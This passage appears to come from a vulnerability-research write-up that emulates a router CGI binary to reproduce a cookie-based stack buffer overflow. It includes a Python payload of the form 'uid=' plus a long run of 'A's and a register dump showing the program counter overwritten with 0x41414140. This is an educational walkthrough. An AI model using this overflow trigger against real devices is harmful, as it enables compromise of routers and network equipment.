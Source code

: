 Good! Now we are reaching our point of interest. After taking a look at the function and also checking the advisory I guessed that this function checked the value of the **HTTP COOKIE** header (again, reading an env. variable).

```C
cookie_value = getenv("HTTP_COOKIE");
```

And then searched for the "uid" string; once found, it processed what came next to it. I guess the function accounted for multiple values inside the cookie header, something like this:

```
Cookie: Avalue=123;OtherVal=AAA;uid=TEST
```

Taking a look at the exploit we can see that sending an HTTP request with a Cookie header containing `uid=(enough_data)` will be sufficient to trigger the exploit. So, we are in the right place.

Let's trigger the bug. To do this, we will need to set the **HTTP_COOKIE** environment variable:

```Python
...
buffer = "uid=%s" % (b"A" * 1041 + b"1111")
required_env = {
    "REQUEST_METHOD": "POST",
    "HTTP_COOKIE"   : buffer
}
...
```

This is the output after running our script. I omitted parts of it for clarity:

```
...
** At [main] **
** At [hedwingcgi_main] **
** At [sess_get_uid] **
[!] Emulation Error

[-] s0	:	 0x41414141
[-] s1	:	 0x41414141
[-] s2	:	 0x41414141
[-] s3	:	 0x41414141
[-] s4	:	 0x41414141
[-] s5	:	 0x41414141
[-] s6	:	 0x41414141
[-] s7	:	 0x41414141
[-] t8	:	 0x8
[-] t9	:	 0x0
[-] k0	:	 0x0
[-] k1	:	 0x0
[-] gp	:	 0x43b6d0
[-] sp	:	 0x7ff3c608
[-] s8	:	 0x41414141
[-] ra	:	 0x41414141
[-] status	:	 0x0
[-] lo	:	 0x0
[-] hi	:	 0x0
[-] badvaddr	:	 0x0
[-] cause	:	 0x0
[-] pc	:	 0x41414140
[-] cp0_config3	:	 0x0
[-] cp0_userlocal	:	 0x0

[+] PC = 0x41414140
[+] Start      End        Perm.  Path
unicorn.unicorn.UcError: Invalid memory read (UC_ERR_READ_UNMAPPED)
```
